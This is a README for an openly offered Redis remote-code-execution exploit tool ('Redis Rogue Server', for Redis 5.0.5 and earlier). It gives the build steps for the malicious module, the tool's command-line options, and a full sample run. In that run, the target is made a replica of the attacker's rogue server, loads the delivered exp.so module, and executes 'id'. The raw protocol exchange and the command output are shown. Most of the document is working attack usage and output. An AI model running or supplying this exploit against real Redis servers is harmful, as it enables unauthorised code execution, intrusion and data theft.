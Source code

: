 # Redis Rogue Server

Forking and refactoring from <https://github.com/n0b0dyCN/redis-rogue-server>

A exploit for Redis(<=5.0.5) RCE, inspired by [Redis post-exploitation](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf).

## Requirements

Python 3.x

## Usage

Compile exploit:

``` bash
cd RedisModulesSDK/
make
```

Then, exp.so is in `RedisModulesSDK/exp.so`.

Help:

```
➜ python3 redis-master.py -h

usage: redis-master.py [-h] -r RHOST [-p RPORT] -L LHOST [-P LPORT] [-f FILE]
                       [-c COMMAND] [-a AUTH] [-v]

Redis 4.x/5.x RCE with RedisModules

optional arguments:
  -h, --help            show this help message and exit
  -r RHOST, --rhost RHOST
                        target host
  -p RPORT, --rport RPORT
                        target redis port, default 6379
  -L LHOST, --lhost LHOST
                        rogue server ip
  -P LPORT, --lport LPORT
                        rogue server listen port, default 21000
  -f FILE, --file FILE  RedisModules to load, default exp.so
  -c COMMAND, --command COMMAND
                        Command that you want to execute
  -a AUTH, --auth AUTH  redis password
```

Execute command:

```
➜ python3 redis-master.py -r target-ip -p 6379 -L local-ip -P 8888 -f RedisModulesSDK/exp.so -c "id"

>> send data: b'*3\r\n$7\r\nSLAVEOF\r\n$13\r\n*.*.*.*\r\n$4\r\n8888\r\n'
>> receive data: b'+OK\r\n'
>> send data: b'*4\r\n$6\r\nCONFIG\r\n$3\r\nSET\r\n$10\r\ndbfilename\r\n$6\r\nexp.so\r\n'
>> receive data: b'+OK\r\n'
>> receive data: b'PING\r\n'
>> receive data: b'REPLCONF listening-port 6379\r\n'
>> receive data: b'REPLCONF capa eof capa psync2\r\n'
>> receive data: b'PSYNC 7cce9210b3ad3f54043ce1965cda506bd26b0224 1\r\n'
>> send data: b'*3\r\n$6\r\nMODULE\r\n$4\r\nLOAD\r\n$8\r\n./exp.so\r\n'
>> receive data: b'+OK\r\n'
>> send data: b'*3\r\n$7\r\nSLAVEOF\r\n$2\r\nNO\r\n$3\r\nONE\r\n'
>> receive data: b'+OK\r\n'
>> send data: b'*4\r\n$6\r\nCONFIG\r\n$3\r\nSET\r\n$10\r\ndbfilename\r\n$8\r\ndump.rdb\r\n'
>> receive data: b'+OK\r\n'
>> send data: b'*2\r\n$11\r\nsystem.exec\r\n$2\r\nid\r\n'
>> receive data: b'$49\r\n\x08uid=999(redis) gid=999(redis) groups=999(redis)\n\r\n'
uid=999(redis) gid=999(redis) groups=999(redis)

>> send data: b'*3\r\n$6\r\nMODULE\r\n$6\r\nUNLOAD\r\n$6\r\nsystem\r\n'
>> receive data: b'+OK\r\n'
```

Screenshot:

![](1.png)

## Thanks

* [RicterZ](https://github.com/RicterZ)'s redis exec module: <https://github.com/RicterZ/RedisModules-ExecuteCommand>
